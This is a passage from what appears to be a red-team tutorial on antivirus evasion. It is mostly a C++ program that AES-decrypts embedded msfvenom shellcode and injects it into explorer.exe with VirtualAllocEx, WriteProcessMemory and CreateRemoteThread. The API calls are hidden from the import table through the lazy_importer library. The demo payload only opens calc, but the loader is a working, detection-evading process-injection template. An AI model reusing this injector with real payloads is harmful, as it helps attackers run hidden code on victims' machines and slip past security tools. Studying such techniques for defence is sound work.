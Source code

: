 What we can do is remove this footprint by "hiding" these functions. And since we're just noobs (again), we'll use the open-source library [JustasMasiulis/lazy_importer](https://github.com/JustasMasiulis/lazy_importer). Just like we did previously, simply import the file [lazy_importer.hpp](https://raw.githubusercontent.com/JustasMasiulis/lazy_importer/master/include/lazy_importer.hpp) in our project and we're good.

So here's what the updated code looks like:
```cpp
#include <Windows.h>
#include "include/aes.hpp"
#include "include/lazy_importer.hpp"

int main(int argc, char* argv[])
{
	// PID of explorer.exe
	DWORD pid = 5284;

	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c 
	unsigned char shellcode[] = "\x9c\xad\x1d\x5b\x52\x35\xdf\x9e\x15\xc3\xa4\x94\xb0\xf6\xd5\x1a\x14\x82\x9b\xc2\xc5\x40\x9e\x03\x45\xdf\x0d\x85\xfc\xff\xc2\xf7\x37\x84\x4b\xa1\x5f\x07\xa3\xf5\xd5\xe3\x54\xe4\x33\x84\x24\xf9\xaf\xbd\xc1\x53\xc9\x87\x4c\xc2\x12\xc7\x24\x6c\x22\xe9\x41\xb4\x47\x9c\xfa\x4c\x20\x8f\x57\x17\x29\x00\x10\x40\x83\xff\xc8\xfe\xa5\x87\x1f\xfd\xec\x30\x72\x07\x71\x59\xf8\x05\xda\x49\x12\xdf\x0a\xc5\xb8\x65\x99\x65\xfa\x5f\xc4\xc3\x8b\x40\x1e\xbe\xf1\x55\xde\x4f\x3a\x65\x2f\x14\xcc\x29\x9d\x7d\x17\xd0\x55\x99\x9e\xc3\x0d\xd7\xbb\xa3\x00\x34\x79\x32\xbe\x16\x66\xf6\xa4\xbc\xda\x40\x06\x7b\x8d\x56\x79\x6b\x21\x79\xd5\xf9\x55\x52\xe2\xd5\x8c\x34\xfd\x1c\x26\xc2\xf5\xd4\x6b\xca\xc3\x74\x91\x9d\xe4\xa2\xf4\x71\x42\x90\x2c\x6a\x11\x66\xf8\x56\x8f\x3c\x26\xa4\x27\x89\x6f\xc2\x02\x48\x53\xed\x08\x32\xa6\x48\x0f\x9a\x39\x0e\x5d\x38\xb4\xa2\x30\x6d\x27\x94\x80\x8c\x06\xa8\x86\x5f\x0b\xda\x44\x83\x51\x55\xfc\xb9\xe2\xcb\xbc\x95\xc8\xd6\x18\xd7\x1b\x04\x3d\xfb\x53\x9b\x57\xa8\xb2\xab\xe7\x27\x3b\xd2\xcb\x53\x20\x11\xcc\x5f\xaf\x31\xcf\xba\x83\xd7\xc7\xa8\xf7\x0c\x78\x6d\x7f\x46\x99\xd7\x33\x23";
	SIZE_T shellcodeSize = sizeof(shellcode);

	unsigned char key[] = "Captain.MeeloIsTheSuperSecretKey";
	unsigned char iv[] = "\x9d\x02\x35\x3b\xa3\x4b\xec\x26\x13\x88\x58\x51\x11\x47\xa5\x98";

	struct AES_ctx ctx;

	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, shellcode, shellcodeSize);

	HANDLE hProcess;
	hProcess = LI_FN(OpenProcess)(PROCESS_ALL_ACCESS, FALSE, pid);

	PVOID baseAddress;
	baseAddress = LI_FN(VirtualAllocEx)(hProcess, nullptr, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	LI_FN(WriteProcessMemory)(hProcess, baseAddress, shellcode, shellcodeSize, nullptr);

	HANDLE hThread;
	hThread = LI_FN(CreateRemoteThread)(hProcess, nullptr, 0, (LPTHREAD_START_ROUTINE)baseAddress, nullptr, 0, nullptr);

	LI_FN(CloseHandle)(hProcess);

	return 0;
}
```
